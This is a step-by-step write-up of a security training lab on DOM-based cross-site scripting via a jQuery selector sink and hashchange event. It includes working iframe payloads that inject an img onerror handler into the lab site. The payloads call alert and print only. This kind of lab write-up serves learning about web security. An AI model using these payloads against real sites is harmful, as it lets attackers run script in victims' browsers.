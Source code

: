 # Lab: DOM XSS in jQuery selector sink using a hashchange event

 This lab contains a DOM-based cross-site scripting vulnerability on the home page. It uses jQuery's $() selector function to auto-scroll to a given post, whose title is passed via the location.hash property.

To solve the lab, deliver an exploit to the victim that calls the print() function in their browser. 

# Step 1 Find a Source for DOM XSS

I find a script with a hashchange event on the main page:

![image](https://user-images.githubusercontent.com/83407557/211337326-97c4d921-f7a2-4904-b446-0f614aa504a6.png)


This means that on the homepage a hashtag followed by a blog post's title will autoscroll to that blogpost on the page:

![image](https://user-images.githubusercontent.com/83407557/211340961-c2064240-ef27-4015-95b2-a356d14885e6.png)

![image](https://user-images.githubusercontent.com/83407557/211341086-644d245f-069a-4466-bd99-153ecd8ed29a.png)

# Step 2 Create an iframe on attack server that causes XSS

The example iframe from port swigger is as follows:

```html
<iframe src="https://vulnerable-website.com#" onload="this.src+='<img src=1 onerror=alert(1)>'">
```

To create a POC that targets this webapp I modify it:

```html
<iframe src="https://0a7d0043037d5182c1ecd113006300cc.web-security-academy.net/#" onload="this.src+='<img src=1 onerror=alert(1)>'">
```

# Step 3 Create a page to deliver the exploit on attack server

I put this iframe POC on the body of /exploit using the provided attack-server:

![image](https://user-images.githubusercontent.com/83407557/211341937-2f8c2be3-b8a5-4adf-9500-00042dc3cd92.png)

When I view the exploit, the iframe causes the XSS to trigger and gives an alert:

![image](https://user-images.githubusercontent.com/83407557/211342148-ded53605-802c-400e-a8b4-b088c822bb3f.png)

# Step 4 Modify POC to call a print() function

Since I need the exploit to call a print function instead of an alert, I change the exploit and save it again:

```html
<iframe src="https://0a7d0043037d5182c1ecd113006300cc.web-security-academy.net/#" onload="this.src+='<img src=1 onerror=print()>'"></iframe>
```

![image](https://user-images.githubusercontent.com/83407557/211343880-9fd26b2f-c392-4ed6-9bc6-a6f138dedde6.png)


![image](https://user-images.githubusercontent.com/83407557/211343588-6f332836-74b9-4625-b143-c9050a18a0a4.png)

# Step 5 Deliver exploit to victim

I deliver the exploit to victim:

![image](https://user-images.githubusercontent.com/83407557/211344034-a394def8-6322-4ef0-8217-bcc4c059dfc5.png)

Which solves the lab:

![image](https://user-images.githubusercontent.com/83407557/211344091-8ba86f4a-358c-40d6-8ab8-1f49423d2b17.png)

